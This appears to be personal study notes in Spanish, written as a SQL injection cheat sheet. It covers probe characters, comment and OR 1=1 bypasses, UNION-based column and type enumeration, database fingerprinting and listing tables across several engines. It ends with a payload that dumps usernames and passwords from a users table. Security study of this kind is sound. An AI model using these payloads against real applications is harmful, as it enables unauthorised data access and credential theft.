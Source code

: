 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

PRE-REQ: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

METODO_1: ' ORDER BY 1-- \
METODO_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version() 

### LISTAR TABLAS DE LA BASE DE DATOS / [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) / [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) / [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- \
SELECT [columns] FROM information_schema.columns 

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables 

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"




